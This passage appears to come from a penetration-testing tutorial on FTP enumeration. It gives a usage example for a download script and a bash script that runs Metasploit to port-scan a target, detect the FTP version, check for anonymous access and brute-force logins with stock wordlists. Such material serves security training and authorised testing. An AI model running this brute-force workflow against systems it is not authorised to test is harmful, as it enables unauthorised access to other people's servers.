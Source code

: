 **Usage**:

```bash
chmod +x ftp_download.sh
./ftp_download.sh 192.168.1.100 sysadmin 654321 secret.txt
```

## Comprehensive FTP Enumeration Workflow

### Complete Assessment Script

```bash
#!/bin/bash

TARGET=$1
OUTPUT_DIR="ftp_enum_$(date +%Y%m%d_%H%M%S)"
mkdir -p $OUTPUT_DIR

echo "[*] Starting comprehensive FTP enumeration"
echo "[*] Target: $TARGET"
echo "[*] Output directory: $OUTPUT_DIR"

# Perform all FTP enumeration steps
msfconsole -q -x "
workspace -a $OUTPUT_DIR;

echo '[+] Checking FTP service status';
use auxiliary/scanner/portscan/tcp;
set RHOSTS $TARGET;
set PORTS 21;
run;

echo '[+] Detecting FTP version';
use auxiliary/scanner/ftp/ftp_version;
set RHOSTS $TARGET;
run;

echo '[+] Checking for anonymous access';
use auxiliary/scanner/ftp/anonymous;
set RHOSTS $TARGET;
run;

echo '[+] Performing brute force attack';
use auxiliary/scanner/ftp/ftp_login;
set RHOSTS $TARGET;
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt;
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt;
set THREADS 5;
set STOP_ON_SUCCESS true;
run;

echo '[+] Enumeration complete';
services;
exit" > $OUTPUT_DIR/results.txt

echo "[+] Results saved to $OUTPUT_DIR/results.txt"
```
